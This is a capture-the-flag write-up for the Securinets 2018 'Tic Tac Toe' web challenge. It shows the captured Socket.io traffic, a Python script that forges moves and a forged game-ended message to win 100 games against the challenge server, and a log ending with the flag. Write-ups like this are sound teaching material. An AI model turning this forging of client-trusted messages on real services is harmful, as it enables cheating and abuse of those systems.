


# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/DancingSimpletons/writeups/blob/master/securinets-2018/Tic%20Tac%20Toe.md
* https://github.com/p4-team/ctf/tree/master/2018-03-24-securinets/web_tictactoe

# Title

[//]: <> (题目)

TheEmperors learned how to play the Tic Tac Toe game and since that time, for million of years, no one have defeated them in this game. You have to defeat TheEmperors player 100 times to become the newest serial winner of this game. Then you will get the flag

Link : http://web2.quals18.ctfsecurinets.com:5000

# Content





[//]: <> (WriteUp内容)

Open the link, open the developer console, and play a few games. Notice that the communication to the server happens
over a Websockets connection -- specifically using the Socket.io protocol. For example, we can see the following interaction

```
> ["createGame", {name: "test"}]
< ["newGame",{"name":"test","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","player1":{"name":"test","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1928,"loose":10320}}]

> ["joinGame",{"ennemy_name":"TheEmperors","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["player2",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]

> ["playTurn",{"row":"0","col":"0","player":"O","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"0","col":"0","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","-","-"],["-","-","-"]]}]

> ["playTurn",{"row":"1","col":"1","player":"X","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"1","col":"1","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","X","-"],["-","-","-"]]}]

...

> ["gameEnded",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
< ["gameEnd",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
```

Note that The Emperor's moves are calculated on the _client side_! This opens possibilities.

Using [socketIO-client](https://pypi.python.org/pypi/socketIO-client), we can easily write a client in Python to send exactly what we
want to the server. We simply position three 'X'-es on the diagonal, and tell the server the game is finished. The server happily accepts
this, and starts a new game. We repeat this until the server sends us the flag.

The message/callback order is as follows:
1. Client sends `createGame` message
2. Server sends `newGame`, client sends `joinGame`
3. Server sends `player2`, client sends `playTurn`
4. Server sends `turnPlayed`. Client sends `playTurn` if moves remaining (goto 4) or `gameEnded` otherwise (goto 2)

```python
import logging
logging.getLogger('socketIO-client').setLevel(logging.DEBUG)
logging.basicConfig()

from socketIO_client import SocketIO, LoggingNamespace
import time

class TicTacToe:
    max_iters = 150  # make sure we don't keep repeating until infinity
    turns = [("X", 0, 0), ("X", 1, 1), ("X", 2, 2)]  # three X-es on the diagonal

    def __init__(self):
        self.iters = 0
        
        self.client = SocketIO('ec2-54-194-213-165.eu-west-1.compute.amazonaws.com', 5000, LoggingNamespace)
        self.client.on('newGame', self.newGame)
        self.client.on('player2', self.nextTurn)
        self.client.on('turnPlayed', self.nextTurn)

    def create_game(self):
        self.client.emit("createGame", {"name": "DancingSimpletons"})

    def newGame(self, args):
        time.sleep(0.1)
        
        self.iters += 1
        print("iteration ", self.iters)
        if (self.iters > self.max_iters):
            return

        self.turnindex = 0
        self.room = args['room']
        self.enemy = args['player2']['name']
        
        self.client.emit("joinGame", {"ennemy_name": self.enemy, "room": self.room})

    def nextTurn(self, args):
        if (self.turnindex == len(self.turns)):
            return self.lastTurn(args)

        (player, row, col) = self.turns[self.turnindex]
        self.turnindex += 1

        self.client.emit("playTurn", {
                'row': row,
                'col': col,
                'player': player,
                'room': self.room
        })

    def lastTurn(self, args):
        self.client.emit("gameEnded", {
                'message': 'whatever',
                'room': self.room
        })

t = TicTacToe()
t.create_game()
t.client.wait(seconds=100)
```

When we run this, we get (NB. 'packet sent' are sent messages, while 'message' indicates a received message)
```
[engine.io transport selected] websocket
[engine.io heartbeat reset]
[socket.io packet sent] 2["createGame", {"name": "DancingSimpletons"}]
[engine.io message] b'0'
[socket.io packet received] b'0'
[socket.io connect]
[socket.io connected]
[engine.io pong] b''
[engine.io message] b'2["newGame",{"name":"DancingSimpletons","room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":"DancingSimpletons","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1956,"loose":10445}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b"}]
[engine.io message] b'2["newGame",{"room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":1,"wins":1,"loose":0,"serial_winner":1},"player2":{"name":"TheEmperors","wins":1956,"loose":10446}}]'
[...]
[socket.io packet received] b'2["newGame",{"room":"1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890","player1":{"name":100,"wins":100,"loose":0,"serial_winner":100},"player2":{"name":"TheEmperors","wins":1961,"loose":10651}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890"}]
[engine.io message] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io packet received] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io event] getMyLovelyFlag('Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}')
```

Success!